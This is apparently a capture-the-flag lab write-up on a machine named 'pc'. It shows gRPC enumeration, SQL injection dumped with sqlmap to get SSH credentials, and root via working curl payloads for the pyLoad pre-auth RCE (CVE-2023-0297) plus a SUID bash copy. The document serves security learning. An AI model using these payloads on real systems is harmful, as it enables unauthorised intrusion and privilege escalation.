 ```yaml
---
layout: post
author: H4-L0
---
```


![image](/images/Pasted image 20230617210102.png)

## Enumeration

### nmap scan
```shell
$ nmap -sS pc
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown

```

after googling for default and commen services that uses port 50051 we found grpc worth a try. to talk to the server we had to install `grpcurl` from this [repo](https://github.com/fullstorydev/grpcurl).

we can list the available services. we found two.

```shell
$ grpcurl -plaintext 10.10.11.214:50051 list
SimpleApp
grpc.reflection.v1alpha.ServerReflection
```

to enumerate further lets check the availabe methods.

```shell
$ grpcurl -plaintext 10.10.11.214:50051 list SimpleApp

SimpleApp.LoginUser
SimpleApp.RegisterUser
SimpleApp.getInfo
```

to test each method we used [grpcui](https://github.com/fullstorydev/grpcui)

### grpcui

![image](/images/Pasted image 20230617221323.png)

registration of a new accoun works fine.

![image](/images/Pasted image 20230617221247.png)

even logging in. we recognized that we get a login token to use with other methods.

![image](/images/Pasted image 20230617221217.png)

so, to get info about a specific ID we can use the `getInfo` method. 

![image](/images/Pasted image 20230617221155.png)

## sqli

and with the token we get a response. unfortunately no useful information in just calling ids. so we tried some basic sqli and the id-field seemed vulnerable, because not only id `1` gave  result also `1 OR 2`. 

in the next step we used the recorded request in burp to save a request and try it with `sqlmap`

`sqlmap -r reques.req --dump`

```shell
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| Here****************31 | sau      |
+------------------------+----------+

```

and we got credentials. 

using them on the ssh port got us access to the user `sau`

![image](/images/Pasted image 20230621224709.png)

and to our first flag.

## Privesc

after checking the usual stuff we were looking for other services that are running on the system.

```shell
netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::50051                :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

netstat gave us the ports that are currently listening. and *port 9666* stands out. googling brought up that i could be `pyload` and a quick search approved our guess.

so, we check the version of pyload. it is `0.5.0`
a short trip to the internet gave us this handy exploit. and it fits our version.

[exploit-link](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)

to run the exploit we needed to use this curl snippet and changed the commands necessary for getting root.

```shell
curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"touch%20tmp/jojop\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://localhost:9666/flash/addcrypted2'
```
![image](/images/Pasted image 20230621225303.png)

our PoC worked. we created a file as root.

then we copied from `/bin/bash` a copy of bash to `/tmp/bash_ex`
after that we added the `suid-bit` with.

`chmod +xs /tmp/bash_ex` (do not forget to url encode your commands)

```shell
curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"chmod%20%2Bxs%20%2Ftmp%2Fbash_ex\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://localhost:9666/flash/addcrypted2'
```

and after that just execute the new binary with `/tmp/bash_ex -p` to preserve privileges.

![image](/images/Pasted image 20230621223349.png)

we are root and got the last flag

[H4] & [L0]
